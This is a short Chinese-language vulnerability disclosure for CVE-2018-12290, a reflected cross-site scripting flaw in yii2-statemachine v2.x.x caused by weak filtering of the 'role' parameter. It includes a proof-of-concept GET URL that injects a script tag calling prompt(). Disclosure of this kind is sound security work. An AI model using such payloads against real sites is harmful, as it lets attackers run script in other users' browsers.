

### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|yii2-statemachine v2.x.x存在XSS漏洞|2018-06-12|longer|[https://github.com/ptheofan/yii2-statemachine-demo](https://github.com/ptheofan/yii2-statemachine-demo) | [https://github.com/ptheofan/yii2-statemachine-demo](https://github.com/ptheofan/yii2-statemachine-demo) |v2.x.x| [CVE-2018-12290](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12290)|  

#### 漏洞概述  

> 由于role参数过滤不严格，导致可以插入js代码造成跨站脚本攻击。如将role参数赋值为`guest'%22()%26%25<acx><ScRiPt%20>prompt(123555)</ScRiPt>`，并进行get方式提交，可造成跨站脚本攻击。   
 
### POC实现代码如下：  

> exp代码如下：  

``` html
https://127.0.0.1/?role=guest'%22()%26%25<acx><ScRiPt%20>prompt(123555)</ScRiPt>
```
### POC截图效果如下：

